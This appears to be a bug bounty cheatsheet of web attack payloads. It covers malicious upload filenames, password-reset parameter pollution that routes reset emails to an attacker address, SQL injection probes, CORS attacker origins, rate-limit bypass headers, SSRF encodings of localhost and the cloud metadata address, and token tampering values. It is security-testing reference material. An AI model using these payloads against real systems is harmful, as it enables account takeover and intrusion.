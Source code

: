 # Bounty Hunter Cheatsheet
---

## File Upload

| Filename | Description |
|----------|-------------|
|.htaccess|htaccess rules|
|file.svg|svg for xss|
|file.SVg|case insensitive|
|file.png.svg|double extension|
|file.php%00.png|null byte|
|file.png' or '1'='1|sql injection|
|../../file.png|directory traversal|
|file.'svg|invalid extension|

## Password Reset

### Parameter payloads

| Payload | Description |
|----------|-------------|
|email=victim@xyz.tld&email=hacker@xyz.tld|double parameter|
|email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld|carbon copy parameter|
|email=victim@xyz.tld,hacker@xyz.tld|colon separator|
|email=victim@xyz.tld%20hacker@xyz.tld|space separator|
|email=victim@xyz.tld\|hacker@xyz.tld|pipe separator|
|email=victim|no domain or tld|
|email=victim@xyz|no tld|
|{"email":["victim@tld.xyz","hacker@tld.xyz"]}|json multiple email table|

### Related other cases

| Technique | Goal |
|----------|-------------|
|reset token modification|account takeover|
|body response token leak|account takeover|
|token guess or bruteforce (timestamp, userid)|account takeover|
|modify header host domain|host reflected in mail and steal token|

## SQL Injection

| Payload | Description |
|----------|-------------|
|/?q=1'|simple quote|
|/?q=1"|double quote|
|/?q=[1]|array value|
|/?q[]=1|array parameter|
|/?q=1\`|backquote|
|/?q=1\\ |escape backslash|
|/?q=1/\*'\*/|comment simple quote|
|/?q=1/\*!1111'\*/|comment simple quote|
|/?q=1'\|\|'asd'\|\|'|string concatenation|
|/?q=1' or '1'='1|or statement with quotes|
|/?q=1 or 1=1| or statement without quotes|
|/?q='or''='|or statement no spaces|

## CORS

| Payload | Description |
|----------|-------------|
|evil.com|attacker's fqdn|
|company.evil|attacker's tld|
|evil.company.tld|attacker's subdomain|

## Recon

| Technique | Payload |
|----------|-------------|
|google dork|site:http://ideone.com\|site:http://codebeautify.org\|site:http://codeshare.io\|site:http://codepen.io\|site:http://repl.it\|site:http://justpaste.it\|site:http://pastebin.com\|site:http://jsfiddle.net\|site:http://trello.com "$TARGET"|

## File analysis

### Javascript

```
apt-get install jsbeautifier
wget https://target/app.js
js-beautify app.js > pretty.js
grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

## Rate limit bypass

```
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

**Increment last octate if blocked**

## Subdomain list

amass + altdns + dnsprobe + nmap

## Information disclosure

- Check if email disclosed in response after inviting a user
- Check reverse search in API
> GET /api/account?email=X

## SSRF

`site.com/?url=FUZZ`

```
http://169.254.169.254\http://0.google.com <=== PHP cve2020
https://[0:0:0:0:0:0:0:0]
https://0.0.0.0
https://[::]
https://0177.1
https://0x7f.1
http://0x7f000001
http://2130706433
http://127.000.001
https://[0:0:0:0:0:ffff:0.0.0.0]
https://[::ffff:0.0.0.0]
https://017700000001
https://[0:0:0:0:0:ffff:127.0.0.1]
https://[::ffff:127.0.0.1]/
https://[::ffff:7f00:2]
https://[::ffff:127.0.0.1]
https://[::ffff:7f00:1]
https://[0:0:0:0:0:ffff:127.0.0.2]
http://[::ffff:169.254.169.254]
http://[0:0:0:0:0:ffff:169.254.169.254]
https://[::ffff:127.0.0.2]
http://[::ffff:a9fe:a9fe]
https://0x7f.0.0.1
https://[::ffff:0:0]
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
http://169-254-169-254.nip.io
http://127.1
http://127.000000000000000.001
http://127.000.000.00000000000000001
```

## Account Takeover

UUID, 2FA, any token...

```
UUID: 0
UUID: 0000
UUID: null
UUID: nil
UUID: numerical value
UUID:
```

## Bad Practice

- Check if email links are in HTTP
- Check if old password is asked when changing password

